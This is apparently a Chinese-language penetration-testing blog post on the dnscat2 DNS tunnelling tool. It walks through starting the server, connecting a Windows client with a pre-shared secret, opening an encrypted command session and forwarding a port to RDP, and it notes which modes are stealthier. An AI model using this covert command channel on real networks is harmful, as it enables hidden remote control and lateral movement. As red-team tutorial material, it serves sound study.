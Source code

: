 ```yaml
---
title: "dnscat2 代理隧道"
date: 2019-07-08T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['port']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



dnscat2 是一款基于 DNS 协议的代理隧道. 不仅支持端口转发, 另外还有执行命令, 文件传输等功能, 不过实测下来都不怎么好用.

其原理与 DNS Log 类似, 分为直连和中继两种模式, 前者直接连接服务端的 53 端口, 速度快, 但隐蔽性差, 后者通过对所设置域名的递归查询进行数据传输, 速度慢, 但隐蔽性好.

关于中继模式中的域名配置, 请参考 cobalt strike 的 `dns_becaon`

服务端由 ruby 编写, 客户端由 C 编写, 另有 powershell 版本.

<!--more-->

```
# ruby dnscat2.rb
New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = n/a]...

It looks like you didn't give me any domains to recognize!
That's cool, though, you can still use direct queries,
although those are less stealthy.

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=33971b1d1593d219ac8ed615d5339180

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> 
```

每次运行都会有不同的 secret key 生成.

```
C:\> dnscat2.exe  --dns server=192.168.1.100,port=53 --secret=33971b1d1593d219ac8ed615d5339180
Creating DNS driver:
 domain = (null)
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 192.168.1.100

** Peer verified with pre-shared secret!

Session established!
```

在 dnscat2 中, 会话被称之为 window, 因为在会话间的切换需要用到 `ctrl-z`.

```
dnscat2> New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)

dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains =  [*]
  1 :: command (LAPTOP) [encrypted and verified] [*]
dnscat2> 
```

创建一条端口转发.

```
(the security depends on the strength of your pre-shared secret!)
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (LAPTOP) 1> listen 1234 127.0.0.1:3389
Listening on 0.0.0.0:1234, sending connections to 127.0.0.1:3389
command (LAPTOP) 1> 
```

至于更多用法请参阅 [README.MD](https://github.com/iagox86/dnscat2/blob/v0.07/README.md)